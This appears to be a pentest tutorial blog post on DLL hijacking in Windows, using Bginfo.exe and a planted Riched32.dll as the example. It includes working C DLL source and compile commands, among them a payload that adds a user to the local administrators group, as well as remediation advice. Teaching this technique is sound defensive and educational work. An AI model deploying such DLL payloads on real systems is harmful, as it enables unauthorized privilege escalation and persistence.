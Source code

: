 ```yaml
---
title:  "DLL hijacking in Windows. Simple C example."
date:   2021-09-24 10:00:00 +0600
header:
  teaser: "/assets/images/8/2021-09-25_12-09.png"
categories: 
  - pentest
tags:
  - dllhijack
  - windows
  - privesc
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL hijacking](/assets/images/8/2021-09-25_12-09.png){:class="img-responsive"}

What is DLL hijacking? DLL hijacking is technique when we tricking a legitimate/trusted application into loading an our malicious DLL.

In Windows environments when an application or a service is starting it looks for a number of DLL's in order to function properly. Here is a diagram showing the default DLL search order in Windows:

![DLL hijacking](/assets/images/8/dllhijack.png){:class="img-responsive"}

In our post, we will only consider the simplest case: the directory of an application is writable. In this case, any DLL loaded by the application can be hijacked because it’s the first location used in the search process.

### Step 1. Find process with missing DLLs

The most common way to find missing Dlls inside a system is running [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, setting the following filters:

![procmon with filters](/assets/images/8/2021-09-25_11-52.png){:class="img-responsive"}

which will identify if there is any DLL that the application tries to load and the actual path that the application is looking for the missing DLL:

![procmon missing dlls](/assets/images/8/2021-09-25_11-53.png){:class="img-responsive"}

In our example, the process `Bginfo.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `Riched32.dll`

### Step 2. Check folder permissions

Let's go to check folder permissions:
```cmd
icacls C:\Users\user\Desktop\
```

![folder permissions](/assets/images/8/2021-09-25_14-42.png){:class="img-responsive"}

According to the [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) we have write access to this folder.   

### Step 3. DLL hijacking

Firstly, let's go to run our `bginfo.exe`:
![run bginfo](/assets/images/8/2021-09-25_11-54.png){:class="img-responsive"}

Therefore if I plant a DLL called `Riched32.dll` in the same directory as `bginfo.exe` when that tool executes so will my malicious code. For simplicity, I create DLL which just pop-up a message box:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](/assets/images/8/2021-09-25_11-58.png){:class="img-responsive"}

Then rename as `Riched32.dll` and copy to `C:\Users\user\Desktop\` my malicious DLL.

![replace DLL](/assets/images/8/2021-09-25_14-54.png){:class="img-responsive"}

And now launch `bginfo.exe`:

![run process 1](/assets/images/8/2021-09-25_12-00.png){:class="img-responsive"}

![run process 2](/assets/images/8/2021-09-25_12-04.png){:class="img-responsive"}

As you can see, our malicious logic is executed:

So, `bginfo.exe` and malicious `Riched32.dll` in the same folder **(1)**    
Then launch `bginfo.exe` **(2)**    
Message box is popped-up! **(3)**   

### Remediation

Perhaps the simplest remediation steps would be simply to ensure that all installed software goes into the protected directory `C:\Program Files` or `C:\Program Files (x86)`. If software cannot be installed into these locations then the next easiest thing is to ensure that only Administrative users have "create" or "write" permissions to the installation directory to prevent an attacker from deploying a malicious DLL and thereby breaking the exploitation.

### Privilege escalation

DLL hijacking can be used for more than just executing code. It can also be used to gain persistence and privilege escalation:

Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.   
Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path).   

Then replace our code:
```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      system("cmd.exe /k net localgroup administrators user /add");
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}

```

*For x64 compile with: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*For x86 compile with: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Further, all steps are similar.

### Conclusion

But in all cases, there is a caveat.

Note that in some cases the DLL you compile must export multiple functions to be loaded by the victim process. If these functions do not exist, the binary will not be able to load them and the exploit will fail.

So, compiling custom versions of existing DLLs is more challenging than it may sound, as a lot of executables will not load such DLLs if procedures or entry points are missing. Tools such as [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html) can be used to enumerate all external function names and ordinals of the legitimate DLLs. Ensuring that our compiled DLL follows the same format will maximise the chances of it being loaded successfully.

In the future I will try to figure out this, and I will try create python script which create `.def` file from target original DLL.

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)

[Source code in Github](https://github.com/cocomelonc/meow/tree/master/2021-09-24-dllhijack)     

I've added the vulnerable bginfo (version 4.16) to github if you'd like to experiment.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*